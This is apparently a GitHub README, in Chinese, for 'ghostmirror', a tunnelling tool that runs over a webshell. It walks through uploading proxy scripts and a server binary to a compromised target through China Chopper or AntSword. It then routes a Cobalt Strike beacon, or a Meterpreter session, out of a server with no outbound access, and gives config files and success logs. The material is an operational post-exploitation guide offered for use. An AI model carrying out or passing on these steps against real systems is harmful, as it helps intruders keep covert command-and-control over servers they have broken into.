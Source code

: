 # 鬼镜(ghostmirror)
鬼镜(ghostmirror)是一个通过webshell实现的**内网穿透工具**.工具主体使用python开发,当前支持php,jsp,aspx三种代理脚本.
# 使用方法
## cobaltstrike不出网服务器上线
* proxy.php上传到目标服务器,确保 [http://www.test.com/proxy.php](http://192.168.1.106:81/proxy.php)可以访问,页面返回 stinger XXX!
* 修改config.ini,示例如下(确保服务器127.0.0.1:8000和127.0.0.1:4444可以正常绑定)
```
[NET-CONFIG]
WEBSHELL = http://www.test.com/proxy.php
SERVER_LISTEN = 127.0.0.1:8000
LOCAL_LISTEN = 127.0.0.1:4444

[TOOL-CONFIG]
LOG_LEVEL = INFO
READ_BUFF_SIZE = 10240
SLEEP_TIME = 0.01
```
* 将mirror_server.exe和config.ini上传到目标服务器同一目录,菜刀(蚁剑)执行mirror_server.exe启动服务端
* 将mirror_client和config.ini上传到CS的teamserver服务器,执行./mirror_client启动客户端,出现如下输出表示成功
```
root@kali:~# ./mirror_client 
2019-08-30 01:42:46,311 - INFO - 220 -  ------------Client Config------------
2019-08-30 01:42:46,311 - INFO - 223 - 
LOG_LEVEL: INFO
SLEEP_TIME:0.01
READ_BUFF_SIZE: 10240
WEBSHELL: http://www.test.com/proxy.php
REMOVE_SERVER: http://127.0.0.1:8000
TARGET_LISTEN: 127.0.0.1:4444
2019-08-30 01:42:46,320 - INFO - 45 -  ------------Server Config------------
2019-08-30 01:42:46,320 - INFO - 49 - 
LOG_LEVEL: INFO
READ_BUFF_SIZE: 10240
SERVER_LISTEN: 127.0.0.1:8000
LOCAL_LISTEN: 127.0.0.1:4444
2019-08-30 01:42:46,320 - INFO - 52 - Connet to server success
```
* cobaltstrike启动监听,host 127.0.0.1 port 4444 beacons 127.0.0.1

![图片](https://uploader.shimo.im/f/uXFSgVE6WFsyksDn.png!thumbnail)
* 使用菜刀(蚁剑)执行在目标机执行该listener的payload,客户端出现如下日志表示正在传输stager,稍后session即可上线
```
2019-08-30 01:47:43,663 - INFO - 52 - Connet to server success
2019-08-30 01:49:46,430 - WARNING - 101 - CLIENT_ADDRESS:127.0.0.1:60487 Create new tcp socket
2019-08-30 01:49:46,538 - INFO - 160 - CLIENT_ADDRESS:127.0.0.1:60487 TCP_SEND_DATA:201
2019-08-30 01:49:46,554 - INFO - 118 - CLIENT_ADDRESS:127.0.0.1:60487 
.................
................
2019-08-30 01:49:46,929 - INFO - 118 - CLIENT_ADDRESS:127.0.0.1:60487 TCP_RECV_LEN:10240

2019-08-30 01:49:49,819 - WARNING - 164 - CLIENT_ADDRESS:127.0.0.1:60487 Client socket closed
2019-08-30 01:49:49,834 - WARNING - 86 - CLIENT_ADDRESS:127.0.0.1:60487 Not in server socket list, remove
2019-08-30 01:49:49,849 - WARNING - 101 - CLIENT_ADDRESS:127.0.0.1:60545 Create new tcp socket
2019-08-30 01:49:49,956 - INFO - 160 - CLIENT_ADDRESS:127.0.0.1:60545 TCP_SEND_DATA:381
2019-08-30 01:49:49,971 - INFO - 118 - CLIENT_ADDRESS:127.0.0.1:60545 TCP_RECV_LEN:116
```
* let`s rock the party

![图片](https://uploader.shimo.im/f/dpQVqNdiyKkH9WNs.png!thumbnail)
## meterpreter_reverse_tcp不出网服务器上线
推荐使用毒刺(stinger)+meterpreter_bind_tcp上线 
# 相关工具
暂时没有公开工具实现此功能
# 已测试
## mirror_server.exe
* windows server 2012
## mirror_client
* kali
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0
# 其他参数
```
[TOOL-CONFIG]
LOG_LEVEL = INFO //日志级别,DEBUG,INFO,WARN,ERROR
READ_BUFF_SIZE = 10240 //TCP读取BUFF(不建议大于10240)
SLEEP_TIME = 0.01 //client每次循环的间隔(秒),该值越大请求webshell次数越少,但传输越也慢
[ADVANCED-CONFIG]
REMOVE_SERVER = http://127.0.0.1:8000 // 用于多级内网穿透(不使用时请勿填写)
TARGET_LISTEN = 192.168.3.100:22// 用于多级内网穿透(不使用时请勿填写)
NO_LOG = True //不打印日志
```

# 更新日志
**1.0**
更新时间: 2019-08-30
* 1.0正式版发布

**1.1**
更新时间: 2019-09-29
* 更新php脚本,速度更快
* 增加jspx脚本适配

